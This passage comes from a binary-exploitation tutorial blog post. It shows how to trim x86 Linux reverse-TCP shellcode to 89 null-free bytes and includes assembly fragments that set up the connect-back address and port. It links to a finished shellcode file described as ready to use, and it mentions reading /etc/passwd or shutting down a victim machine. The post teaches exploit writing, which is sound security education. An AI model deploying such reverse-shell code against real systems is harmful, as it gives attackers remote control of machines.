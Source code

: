     * The first two **push edx** instructions are equivalent to setting the **sin_zero** member of **sockaddr_in** structure to 0. 

    * I read about where **sin_zero** could be used. Got to know that it is padding and might be used in the future. [This](https://stackoverflow.com/questions/15608707/why-is-zero-padding-needed-in-sockaddr-in) is a stackoverflow answer I referred to. 

    * So, I decided to remove the first 2 **push edx** instructions. Now, the code looks like this: 

            push edx
            push edx
            mov byte [esp] , 0x2                    ; AF_INET - 2 bytes
            mov word [esp + 0x2], 0x1027            ; htons(0x2710) - 2 bytes
            mov dword[esp + 0x4], 0x0101017f        ; IP Address - 4 bytes

    * Note that the first "push edx" is overwritten by the **mov dword[esp + 0x4], 0x0101017f**. So, instead of pushing edx(whose value is 0) and then writing what we want into the stack, let us push whatever we want to write in the first place. We wanted to write the IP Address. Let us push it and remove one **push edx** instruction. Now, the code looks like this: 

            push 0x0101017f
            push edx
            mov byte [esp], 0x2
            mov word[esp + 0x2], 0x1027


NOTE: It is important **not** to make unrealistic assumptions in order to make the Shellcode smaller. This might affect the reliability of the Shellcode.

With these changes, our shellcode becomes **89** bytes. We have successfully reduced to below 100 bytes. 

The file [revshell3.asm](/assets/2018-12-07-exploitation-using-code-injection-part03/revshell3.asm) has the assembly program which when assembled gives the **89** no-NULL byte shellcode. 

The file [final_reverseshellcode.c](/assets/2018-12-07-exploitation-using-code-injection-part03/final_reverseshellcode.c) has the final shellcode which you can readily use. I have highlighted the IP Address and Port Number in it. You can change it to whatever IP Address and Port Number you want and use it easily. 

With that, we have successfully written Usable x86-Linux Reverse-TCP Shellcode.

The sole aim of these 3 posts - [Link1](/reverse/engineering/and/binary/exploitation/series/2018/10/20/exploitation-using-code-injection-part01.html), [Link2](/reverse/engineering/and/binary/exploitation/series/2018/12/02/exploitation-using-code-injection-part02.html) and this post is to give a flavor of what Shellcode is, how to write shellcode. 

We saw how to write 2 types of shellcode - Standard and Reverse-TCP and have understood the concept behind Bind-TCP. The purpose of Shellcode can be anything. It can be just to display contents of **/etc/passwd**, code which shutdowns the victim system, reboots it. These are just a few things. You can write code to make the victim machine to do anything. 

That is it for this post. 

In the next post, let us go back to Buffer Overflow Vulnerability. We will see how to exploit BOFs with the shellcode we wrote. We will see how the Operating System defends itself against these exploit methods. 
